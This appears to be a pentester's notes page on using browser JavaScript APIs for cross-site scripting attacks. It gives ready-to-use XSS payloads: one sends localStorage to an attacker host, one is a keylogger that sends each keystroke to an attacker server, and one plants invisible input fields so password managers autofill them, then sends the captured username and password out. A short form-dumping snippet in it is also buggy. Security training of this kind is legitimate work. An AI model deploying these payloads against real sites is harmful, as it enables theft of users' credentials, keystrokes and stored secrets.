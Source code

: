 ```yaml
---
title: JavaScript for hackers
tags:
  - web-app
  - pentesting
  - javascript
---
```

## Useful JavaScript APIs
Notes on some useful JavaScript APIs to interact with the browser maliciously.
### [Window](https://developer.mozilla.org/en-US/docs/Web/API/Window)
Represents the window the entire document (the HTML response from the server) lives. This gives us access to the URL via the *location* property and *localStorage* which may contain secrets.

Treat Window as global, any properties set here or any methods we have access can be used in the global context, like `alert()`. `alert()`is one of the primary methods we can use to prove that a [XSS vulnerability](./cross-site-scripting) exists in an application.
#### Exposing storage
Browsers cache important secrets in the `Window` namespace of a user's browsing session. With XSS, we can exfiltrate this data by targeting the [`localStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage) and [`sessionStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage) objects in the `Window` namespace:

```javascript
fetch("http://ATTACKER_IP_ADDRESS/exfil?data=" + encodeURIComponent(JSON.stringify(localStorage)))
```
### [Document](https://developer.mozilla.org/en-US/docs/Web/API/Document)
A powerful API that allows us to interact with the document object model (DOM) of the web page we're attacking. The DOM provides us with access to all text inputs, usernames, passwords, cookies, etc. as well as all keypress events.

#### Dumping all input forms
A useful method in the `Document` namespace is [`getElementsByTagName()`](https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByTagName). For example, let's dump the contents of all forms in the document that are tagged as `input`:

```javascript
let inputForms = document.getElementsByTagName("input");

for (let inputForm of inputForms) {
    console.log(input.value);
}
```

How do we know what DOM HTML tags are interesting? The entire HTML DOM spec is actually provided [here](https://html.spec.whatwg.org/multipage/).

#### Logging all keystrokes
Another fun technique to disclose information from a victim using the `Document` namespace is key logging. Whenever a [`keydown`](https://developer.mozilla.org/en-US/docs/Web/API/Element/keydown_event) event occurs, we can execute some JavaScript to retrieve the keys pressed by the victim:

```javascript
function keyLog(event) {
    console.log(event.key);
}

document.addEventListener('keydown', keyLog);
```

More information about the `addEventListener()` API can be found [here](https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener).

Let's notice something about the above code - it only logs the key presses to the console, not super useful for an attacker unless I can somehow view the victim's console! Instead, we need to exfiltrate this data.

Using the [`Fetch`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch) API, we can coerce the victim into making a web request to a server we own. The result of the `fetch` action doesn't matter either because `fetch` just returns a [`Promise`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise). This means we can avoid crashing our script when the `fetch` action fails. Now, when we log a keystroke from the user, we can append the keystroke to a web request targeted at a server we host, allowing us to see the victim's keystrokes:

```javascript
function keyLog(event) {
    fetch('http://<WEB_SERVER_IP_ADDRESS>/k?key=' + event.key);
}

document.addEventListener('keydown', keyLog);
```
#### Dumping credentials from password managers
Password managers are great; you should definitely be using one! But this particular script attacks password managers into autofilling HTML DOM `input` objects that look like username and password prompts.

Using this XSS payload, we modify the document, adding input forms for a username and a password, hide them with an opacity of 0, and exfiltrate the username and password values after waiting 5 seconds for the password manager to input data into the new forms:

```javascript
let body = document.getElementsByTagName("body")[0]
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
u.style.opacity = "0";
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
p.style.opacity = "0";
body.append(u)
body.append(p)
setTimeout(function() {fetch("http://ATTACKER_IP_ADDRESS/k?u=" + u.value + "&p=" + p.value)}, 5000);
```